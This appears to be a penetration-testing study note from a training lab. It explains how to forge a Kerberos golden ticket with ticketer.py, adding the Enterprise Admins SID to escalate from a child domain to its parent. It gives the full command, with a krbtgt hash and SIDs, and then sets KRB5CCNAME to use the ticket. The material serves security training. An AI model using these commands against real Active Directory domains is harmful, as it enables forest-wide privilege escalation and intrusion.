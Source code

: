 Use this tool to construct golden ticket.
You need:
- Hash of krbtgt service.
- SID and FQDN of sub Domain
- SID Enterprise Admin group
- Fake target user.

refer to [[3. Attacking Domain Trusts - Child -> Parent Trusts - from Linux]] for details.

```sh
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.

```shell
slomkm@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```